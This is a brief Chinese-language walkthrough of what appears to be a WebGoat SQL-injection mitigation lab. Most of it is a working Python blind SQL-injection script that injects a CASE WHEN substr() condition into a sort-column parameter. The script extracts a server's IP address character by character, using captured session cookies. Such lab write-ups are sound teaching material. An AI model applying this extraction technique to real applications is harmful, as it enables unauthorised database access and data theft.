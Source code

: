 对数据包进行修改，爆出数据库的表名。得到表名之后，编写代码进行爆破。

![爆出数据库的表名](./爆出数据库的表名.png)

exp

```python
import requests
from string import digits
chars = digits+"."
headers = {
'X-Requested-With': 'XMLHttpRequest'
}
cookies = {
'JSESSIONID': 'F7bZenCiuGXAihZxpmZ02ez0rdocJmzimNkXObYJ', # 抓包得到的
'JSESSIONID.75fbd09e': '7mc1x9iei6ji4xo2a3u4kbz1'
}
i = 0
result = ""
proxy={"http": "http://127.0.0.1:8080"}
while True:
    i += 1
    temp = result
    for char in chars:
        vul_url = "http://8.130.73.157:8080/WebGoat/SqlInjectionMitigations/servers?column=case when (select substr(ip,{0},1)='{1}' from servers where hostname='webgoat-prd') then hostname else mac end".format(i, char) 
        resp = requests.get(vul_url, headers=headers, cookies=cookies, proxies=proxy)
        if 'webgoat-acc' in resp.json()[0]['hostname']:
            result += char
            print(result)
            if temp == result:
                break
```
